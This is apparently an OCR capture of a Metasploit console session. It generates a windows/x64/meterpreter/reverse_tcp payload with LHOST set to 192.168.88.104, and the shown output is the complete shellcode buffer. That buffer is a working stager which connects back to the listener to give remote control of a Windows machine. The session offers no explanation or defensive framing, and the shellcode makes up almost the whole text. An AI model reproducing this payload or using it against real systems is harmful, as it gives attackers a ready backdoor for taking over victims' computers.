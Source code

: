 msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.88.104
LHOST => 192.168.88.104
msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate

# StageEncodingFallback=true, PrependMigrate=false, 
# EXITFUNC=process, AutoLoadStdapi=true, 
# AutoVerifySessionTimeout=30, InitialAutoRunScript=, 
# AutoRunScript=, AutoSystemInfo=true, 
# EnableUnicodeEncoding=false, SessionRetryTotal=3600, 
# SessionRetryWait=10, SessionExpirationTimeout=604800, 
# SessionCommunicationTimeout=300, PayloadProcessCommandLine=, 
# AutoUnhookProcess=false, MeterpreterDebugBuild=false
buf = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50" +
"\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52" +
"\x18\x48\x8b\x52\x20\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48" +
"\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41" +
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x41" +
"\x51\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f" +
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0" +
"\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x8b\x48\x18\x49\x01" +
"\xd0\x50\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88" +
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1" +
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8" +
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44" +
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41" +
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83" +
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9" +
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00" +
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49" +
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x58\x68\x41\x54" +
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5" +
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b" +
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31" +
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41" +
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58" +
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5" +
"\x85\xc0\x74\x0c\x49\xff\xce\x75\xe5\x68\xf0\xb5\xa2\x56" +
"\xff\xd5\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04" +
"\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x48" +
"\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00" +
"\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53" +
"\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89" +
"\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff" +
"\xd5\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xe1\x41\xff" +
"\xe7"